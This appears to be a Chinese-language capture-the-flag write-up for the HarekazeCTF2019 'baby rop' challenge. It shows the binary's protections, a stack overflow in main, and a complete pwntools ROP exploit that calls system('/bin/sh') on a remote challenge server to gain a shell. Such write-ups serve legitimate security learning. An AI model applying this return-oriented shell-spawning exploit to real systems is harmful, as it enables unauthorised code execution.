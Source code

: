 ```yaml
---
author: 
  name: Zephyr
title: HarekazeCTF2019 baby rop
date: 2022-3-22 10:20:03
permalink: /pages/2e1547494524d187
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# HarekazeCTF2019 baby rop

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/HarekazeCTF2019_baby_rop/babyrop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [rsp+0h] [rbp-10h]

  system("echo -n \"What's your name? \"");
  __isoc99_scanf("%s", &v4);
  printf("Welcome to the Pwn World, %s!\n", &v4);
  return 0;
}
```

函数表如下

![HarekazeCTF2019_baby_rop_1](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/HarekazeCTF2019_baby_rop_1.png)

Gadget

```shell
ROPgadget --binary babyrop --string "/bin/sh\x00"
Strings information
============================================================
0x0000000000601048 : /bin/sh
```

## 思路分析

1. 目前信息：
   - 明显的栈溢出漏洞
   - `plt`表内有`system`
   - 存在`/bin/sh`字符串
   - No PIE
   - NX 保护
1. 思路：
   - 可栈溢出，有`system`，有`/bin/sh`，构造`rop`链布好栈帧输入即可

## exp

```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/HarekazeCTF2019_baby_rop/babyrop'
io = remote('node4.buuoj.cn', 26190)
# io = process(pwnfile)
elf = ELF(pwnfile)
padding = 0x10+8
system_addr = elf.plt['system']
bin_sh = 0x601048
pop_rdi_ret = 0x400683
payload = flat(['a'*padding, pop_rdi_ret, bin_sh, system_addr])
io.recv()
io.sendline(payload)
io.interactive()
```